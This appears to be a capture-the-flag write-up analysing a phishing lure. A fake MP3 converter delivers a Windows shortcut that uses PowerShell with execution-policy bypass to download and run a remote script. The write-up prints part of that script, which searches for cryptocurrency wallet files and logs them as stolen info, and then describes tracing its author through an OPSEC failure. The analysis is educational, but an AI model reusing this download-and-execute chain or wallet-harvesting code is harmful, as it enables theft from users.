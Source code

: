 In this challenge, we had to analyzed a suspicious file downloaded from a phishing attempt.This phishing attempt was youtube to mp3 converter website.We were given a youtube link `https://www.youtube.com/watch?v=dQw4w9WgXcQ`
and we had to convert it into mp3 using the converter website.What this does is that it downloads a zip file, then u extract that zip file where we find that there are two files `song.mp3` and `somg.mp3`. Then i opened the terminal 
and used `file` to check the file `song.mp3` and `somg.mp3`. The `song.mp3` was a `Audio file with ID3 version 2.3.0, contains:MPEG ADTS, layer III, v1, 192 kbps, 44.1 kHz, Stereo` and there is nothing suspicious about it 
but the `somg.mp3` was a `MS Windows shortcut, Item id list present, Points to a file or directory, Has Relative path, Has Working directory, Has command line arguments, Archive, ctime=Sat Sep 15 07:14:14 2018, mtime=Sat 
Sep 15 07:14:14 2018, atime=Sat Sep 15 07:14:14 2018, length=448000, window=hide` and now this is suspicios.What the `somg.mp3` does is The `-ep Bypass -nop` flags disable PowerShell's usual restrictions, allowing scripts to run without interference from security settings or user profiles.
The `DownloadFile` method pulls a file (in this case, IS.ps1) from a remote server (`https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1`) and saves it in the `C:\\ProgramData\\` directory on the target machine.
Once downloaded, the script is executed with PowerShell using the `iex` command, which triggers the downloaded `s.ps1` file.
The contents of the file which is downloaded from the website `https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1` is 
``` bash
 function Print-AsciiArt {
    Write-Host "  ____     _       ___  _____    ___    _   _ "
    Write-Host " / ___|   | |     |_ _||_   _|  / __|  | | | |"  
    Write-Host "| |  _    | |      | |   | |   | |     | |_| |"
    Write-Host "| |_| |   | |___   | |   | |   | |__   |  _  |"
    Write-Host " \____|   |_____| |___|  |_|    \___|  |_| |_|"

    Write-Host "         Created by the one and only M.M."
}

# Call the function to print the ASCII art
Print-AsciiArt

# Path for the info file
$infoFilePath = "stolen_info.txt"

# Function to search for wallet files
function Search-ForWallets {
    $walletPaths = @(
        "$env:USERPROFILE\.bitcoin\wallet.dat",
        "$env:USERPROFILE\.ethereum\keystore\*",
        "$env:USERPROFILE\.monero\wallet",
        "$env:USERPROFILE\.dogecoin\wallet.dat"
    )
    Add-Content -Path $infoFilePath -Value "`n### Crypto Wallet Files ###"
    foreach ($path in $walletPaths) {
        if (Test-Path $path) {
            Add-Content -Path $infoFilePath -Value "Found wallet: $path"
        }
    }
}

[Output truncated for brevity]
```
What that script does is that it searches from crypto wallets and steals all your crypto info.Now we need to search for the sources or the owner of this script and the hint is `Created by the one and only M.M.`
So we go to `github` and search using the hint.There we get a hit where a user named `Mayor-WarevilleTHM` has started a conversation about the script. if we go into that users profile we can see the script in its
public directory and a there is one more directory where the user has given his personal information. from this we can track the person who is trying to steal peoples crypto wallet using the youtube to mp3 convertor.
This is know as `OPSEC failure`.There are few examples of `OPSEC failure` given on the tryhackme website.
`
